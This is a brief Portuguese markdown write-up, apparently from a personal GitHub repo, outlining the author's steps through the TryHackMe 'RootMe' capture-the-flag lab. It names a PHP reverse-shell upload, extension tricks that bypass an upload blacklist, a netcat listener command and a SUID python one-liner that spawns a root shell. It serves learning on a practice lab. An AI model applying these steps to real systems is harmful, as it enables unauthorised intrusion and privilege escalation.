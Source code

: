# TryHackme - RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   I. **Nmap Scan**
   
      - Portas
      - Serviços/Protocolos

   II. **Gobuster**
       
       - /panel/
       - /uploads/

2. **Shell Reverso**

   I. **PHP**
   
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   II. **Blacklist Bypass**
   
      - .php3
      - .php4
      - .php5
      - .phtml

   III. **Netcat**
   
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   I. **Exploração de Permissão SUID**
   
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   II. **Python**
   
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   III. **Root**
   
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[Infosec Writeup](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.
